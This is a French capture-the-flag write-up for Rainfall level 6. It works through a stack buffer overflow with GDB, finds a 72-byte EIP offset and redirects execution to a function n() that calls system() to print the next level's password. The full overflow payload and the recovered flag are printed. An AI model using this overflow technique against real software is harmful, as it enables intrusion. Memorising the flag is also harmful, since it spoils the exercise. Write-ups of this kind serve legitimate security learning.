 # Rainfall - Flag 6

---

## ⚡ Objectif

Exploiter un **buffer overflow** pour rediriger l'exécution vers une fonction déjà présente dans le binaire qui affiche directement le flag.

---

## 📂 Analyse initiale

```bash
$ ./level6
Segmentation fault (core dumped)
```

Le binaire plante immédiatement. Il est probable qu'un buffer overflow soit en cause.

---

## 🔍 Test du binaire

```bash
$ ./level6 aaa
Nope
```

Le programme prend un argument. Testons un overflow avec un payload plus long.

---

## 🛠️ Analyse avec GDB

### 1. Génération du pattern

Tu peux utiliser [Wiremask](https://wiremask.eu/tools/pattern_create/) pour générer un pattern personnalisé de 200 caractères.

```bash
$ ./level6 <pattern_wiremask_200>
```

### 2. Analyse du crash

Dans GDB :

```bash
$ gdb ./level6
(gdb) run <pattern_wiremask_200>
# Crash !
(gdb) i r eip
EIP: 0x37674136 ('6Ag7')
```

Trouvons l’offset avec [Wiremask pattern offset](https://wiremask.eu/tools/pattern_offset/) : **72 octets**.

Donc, **l’EIP est contrôlé après 72 octets**.

---

## 🔬 Trouver une fonction utile

Dans le dump des fonctions (`objdump -d ./level6` ou `info functions` dans GDB), on remarque une fonction appelée `n` :

```
0x08048454 <n>
```

Explorons son contenu avec :

```bash
(gdb) disas n
```

On y trouve :

```asm
movl $0x80485f0,(%esp)
call 0x80483b0 <system@plt>
```

On voit donc que `n()` appelle `system()` avec comme argument l’adresse d’une chaîne statique.

On peut retrouver cette chaîne avec :

```bash
(gdb) x/s 0x80485f0
0x80485f0: "/bin/cat /home/user/level7/.pass"
```

Donc, **la fonction `n()` appelle bien la commande pour afficher le flag**.

---

## 🎯 Exploit final

Une fois l’offset connu (72), et l’adresse de la fonction identifiée (`0x08048454`), on injecte cette adresse à la place de l’EIP.

```bash
$ ./level6 $(python -c "print 'A'*72 + '\x54\x84\x04\x08'")
```

---

## 🔐 Récupération du flag

```bash
$ ./level6 $(python -c "print 'A'*72 + '\x54\x84\x04\x08'")
...
f73dcb7a06f60e3ccc608990b0a046359d42a1a0489ffeefd0d9cb2d7c9cb82d
```

---

## 📅 Récapitulatif

* ✅ Vulnérabilité : **Buffer Overflow**
* ✅ Offset pour contrôler EIP : **72 octets** (trouvé avec Wiremask)
* ✅ Fonction utile : `n()`
* ✅ Appelle : `system("/bin/cat /home/user/level7/.pass")`
* ✅ Adresse à injecter : `0x08048454`
* ✅ Payload final : `'A'*72 + '\x54\x84\x04\x08'`
* ✅ Le flag est affiché automatiquement sans shell interactif
